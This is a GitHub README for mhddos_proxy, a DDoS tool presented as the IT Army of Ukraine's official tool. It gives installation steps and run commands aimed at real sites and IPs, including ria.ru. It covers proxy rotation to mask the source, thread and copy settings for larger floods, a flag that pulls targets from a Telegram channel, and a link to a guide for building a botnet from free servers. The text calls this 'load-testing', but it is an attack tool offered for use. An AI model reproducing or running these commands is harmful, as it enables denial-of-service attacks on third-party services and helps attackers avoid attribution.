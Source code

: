 ## IT Army of Ukraine Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates
- **10.06.2022** Introduced `--proxy` option for providing custom proxies directly from command args
- **08.06.2022** Added `--copies auto` option to set the value automatically based on the resources available
- **25.05.2022** Improved default output - the `--debug` option is no longer required 
- **24.05.2022** Added auto-update option - see [Running](#2--running-different-options-for-targets-are-given)
- **21.05.2022** Added english localization - use flag `--lang EN` (more languages may be added later)

### 1. 💽 Installation

#### Extended instructions (UA only so far) - [click here](/docs/installation.md)

#### Python (if it doesn't work, try `python` or `python3.10` instead of `python3`)

Requires python >= 3.8 and git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Install and start Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Running (different options for targets are given)

#### Python with automatic updates (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (manual updates required) (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Options (check out more in the [CLI](#cli) section)

All options can be combined, you can specify them either before and after the list of targets

- Consider adding your IP/VPN to the attack (especially when running on dedicated server), add flag `--vpn`
- To use targets provided by https://t.me/itarmyofukraine2022, add the `--itarmy` flag  
- Number of threads: `-t XXXX` - the default is 8000 (or 4000 if the machine has only one CPU).
- Number of copies: `--copies X` or `--copies auto` - in case you have 4+ CPU and stable network 100+ Mb/s

### 4. 📌 Help with finding new proxies for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Community (mostly in Ukrainian)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 8000     Number of threads (default is 8000 if CPU > 1, 4000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --proxy [PROXY ...]    List of proxies to use, separated by spaces
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --debug                Detailed log for each target
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1). Use "auto" to set the value automatically
      --lang {en,ua}         Select language (default is ua)

### 7. Custom proxies

#### CLI

To specify custom proxy use `--proxy` option:

    python3 runner.py --proxy socks4://114.231.123.38:3065

Multiple proxies are allowed (space separated):

    python3 runner.py --proxy socks4://114.231.123.38:3065 socks5://114.231.123.38:1080

If the list of custom proxies gets too long, consider switching to file-based configuration (see the next section).

#### File format (any of the following):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
